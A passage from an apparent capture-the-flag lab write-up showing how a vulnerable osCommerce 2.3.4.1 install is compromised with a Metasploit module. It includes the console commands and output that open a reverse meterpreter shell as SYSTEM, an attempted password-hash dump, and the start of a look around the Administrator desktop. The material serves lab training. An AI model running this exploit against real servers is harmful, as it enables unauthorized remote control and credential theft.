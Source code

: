   
  Payload options (php/meterpreter/reverse_tcp):
  
     Name   Current Setting  Required  Description
     ----   ---------------  --------  -----------
     LHOST                   yes       The listen address (an interface may be specified)
     LPORT  4444             yes       The listen port
  
  
  Exploit target:
  
     Id  Name
     --  ----
     0   osCommerce 2.3.4.1
  
  
  
  View the full module info with the info, or info -d command.
  ```
  
- Set the required parameters and run the exploit, you should get meterpreter shell.

  ```
  msf6 exploit(multi/http/oscommerce_installer_unauth_code_exec) > set lhost [YOUR-THM-IP]
  lhost => [YOUR-THM-IP]
  msf6 exploit(multi/http/oscommerce_installer_unauth_code_exec) > set rport 8080
  rport => 8080
  msf6 exploit(multi/http/oscommerce_installer_unauth_code_exec) > set rhosts 10.10.10.69
  rhosts => 10.10.10.69
  msf6 exploit(multi/http/oscommerce_installer_unauth_code_exec) > set URI /oscommerce-2.3.4/catalog/install/
  URI => /oscommerce-2.3.4/catalog/install/
  msf6 exploit(multi/http/oscommerce_installer_unauth_code_exec) > run
  [*] Started reverse TCP handler on [YOUR-THM-IP]:4444 
  [*] Sending stage (40004 bytes) to 10.10.10.69
  [*] Meterpreter session 1 opened ([YOUR-THM-IP]:4444 -> 10.10.10.69:49479) at 2025-05-15 21:01:10 +0100
  
  
  meterpreter > getuid
  Server username: SYSTEM
  meterpreter > hashdump
  [-] The "hashdump" command requires the "priv" extension to be loaded (run: `load priv`)
  ```

---

## 🧍 User Privilege Escalation

- In order to dump hashes we will need to escalate to Administrator, but you can read the root flag now.

  ```
  meterpreter > dir
  Listing: C:\Users\Administrator\Desktop
  =======================================
  